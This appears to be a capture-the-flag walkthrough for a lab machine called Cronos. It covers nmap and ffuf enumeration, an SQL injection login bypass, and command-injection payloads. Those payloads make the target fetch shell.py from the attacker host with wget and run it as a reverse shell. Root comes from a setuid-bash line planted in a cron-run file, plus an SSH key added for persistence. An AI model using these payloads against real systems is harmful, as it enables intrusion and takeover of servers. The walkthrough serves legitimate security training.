









# cronos

`nmap` scan

```text
# Nmap 7.91 scan initiated Mon Aug  9 16:30:55 2021 as: nmap -sS -sV -sC -A -O -p- --min-rate 1000 -oN cronos 10.129.30.241
Nmap scan report for 10.129.30.241
Host is up (0.15s latency).
Not shown: 65532 filtered ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 18:b9:73:82:6f:26:c7:78:8f:1b:39:88:d8:02:ce:e8 (RSA)
|   256 1a:e6:06:a6:05:0b:bb:41:92:b0:28:bf:7f:e5:96:3b (ECDSA)
|_  256 1a:0e:e7:ba:00:cc:02:01:04:cd:a3:a9:3f:5e:22:20 (ED25519)
# not much here

53/tcp open  domain  ISC BIND 9.10.3-P4 (Ubuntu Linux)
| dns-nsid:
|_  bind.version: 9.10.3-P4-Ubuntu
# nothing here

80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.10 - 4.11 (92%), Linux 3.12 (92%), Linux 3.13 (92%), Linux 3.13 or 4.2 (92%), Linux 3.16 (92%), Linux 3.16 - 4.6 (92%), Linux 3.18 (92%), Linux 3.2 - 4.9 (92%), Linux 3.8 - 3.11 (92%), Linux 4.2 (92%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

an `nmap` script on the `DNS` server. Let's run it in background, while we look at the `HTTP` server. Update: nothing much from here

```text
nmap -p53 --min-rate 1000 --script broadcast-dns-service-discovery.nse,dns-blacklist.nse,dns-brute.nse,dns-cache-snoop.nse,dns-check-zone.nse,dns-client-subnet-scan.nse,dns-fuzz.nse,dns-ip6-arpa-scan.nse,dns-nsec-enum.nse,dns-nsec3-enum.nse,dns-nsid.nse,dns-random-srcport.nse,dns-random-txid.nse,dns-recursion.nse,dns-service-discovery.nse,dns-srv-enum.nse,dns-update.nse,dns-zeustracker.nse,dns-zone-transfer.nse,fcrdns.nse 10.129.30.241
```

on `ffuf`'ing the `HTTP` server with `10.10.10.13 cronos.htb` \(there is just apache page on using with IP address\), we get a `Laravel` page


and a `web.config` on the `ffuf` scan

```text
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.10.13/FUZZ
 :: Wordlist         : FUZZ: /usr/share/dirb/wordlists/common.txt
 :: Header           : Host: cronos.htb
 :: Extensions       : .php .txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403
________________________________________________

.htaccess               [Status: 403, Size: 294, Words: 22, Lines: 12]
                        [Status: 200, Size: 2319, Words: 990, Lines: 86]
robots.txt              [Status: 200, Size: 24, Words: 2, Lines: 3]
server-status           [Status: 403, Size: 298, Words: 22, Lines: 12]
web.config              [Status: 200, Size: 914, Words: 209, Lines: 24]
:: Progress: [13842/13842] :: Job [1/1] :: 814 req/sec :: Duration: [0:00:17] :: Errors: 0 ::
```

```text
<configuration>
  <system.webServer>
    <rewrite>
      <rules>
        <rule name="Imported Rule 1" stopProcessing="true">
          <match url="^(.*)/$" ignoreCase="false" />
          <conditions>
            <add input="{REQUEST_FILENAME}" matchType="IsDirectory" ignoreCase="false" negate="true" />
          </conditions>
          <action type="Redirect" redirectType="Permanent" url="/{R:1}" />
        </rule>
        <rule name="Imported Rule 2" stopProcessing="true">
          <match url="^" ignoreCase="false" />
          <conditions>
            <add input="{REQUEST_FILENAME}" matchType="IsDirectory" ignoreCase="false" negate="true" />
            <add input="{REQUEST_FILENAME}" matchType="IsFile" ignoreCase="false" negate="true" />
          </conditions>
          <action type="Rewrite" url="index.php" />
        </rule>
      </rules>
    </rewrite>
  </system.webServer>
</configuration>
```

these pages are not revealing much to us, So lets do a `subdomain enumeration`

```text
:: Method           : GET
 :: URL              : http://10.10.10.13/index.php
 :: Wordlist         : FUZZ: ./dnsrecon/subdomains-top1mil-20000.txt
 :: Header           : Host: FUZZ.cronos.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403
________________________________________________

admin                   [Status: 200, Size: 1547, Words: 525, Lines: 57]
www                     [Status: 200, Size: 2319, Words: 990, Lines: 86]
WWW                     [Status: 200, Size: 2319, Words: 990, Lines: 86]
:: Progress: [20000/20000] :: Job [1/1] :: 588 req/sec :: Duration: [0:00:34] :: Errors: 24 :
```

so there is a `SQLi` vulnerability on the `admin.cronos.htb` page. We get a logged in session if we try that.



on the logged in session we have an option to `ping` and `traceroute`, although `traceroute` doesn't work. and if we intercept the ping in `Burp`, we see there might be some `code injection` that might be going on.



this below is my attempt on getting a `reverse shell` on the box



and now, we need to run the following commands on the `Burp repeater`

```text
command=wget+10.10.14.31%3a81/shell.py+-O+/tmp/shell.py;ping+-c+1&host=8.8.8.8
command=python3+/tmp/shell.py;ping+-c+1&host=8.8.8.8
```

and, we got a reverse shell as `www-data`



and we have got a `config.php` here in our working folder, let's try to go to sql.



admin pass, not sure if this will lead us to something. So nothing much here after trying to crack this.



maybe we got something here.



nope, none of this works. By the name of the box, it maybe that there is some `cron jobs` running here. Looking at processes using `pspy`, we can see a pho job running every minute



so we can modify this file to get code execution as `root` user, so let's do that now. So what I did here is, add a line that says

```text
system('chmod +s /bin/bash');
```

in the `/var/www/html/artisan` file. \(it might spoil the box for others if we do this on a shared machine\)



and we are root now. If you want a root ssh shell from now on, its very easy to do that, just add your ssh pub key in the `/root/.ssh/authorized_keys` file and make its permissions as

```text
chmod go= /root/.ssh/authorized_keys
```


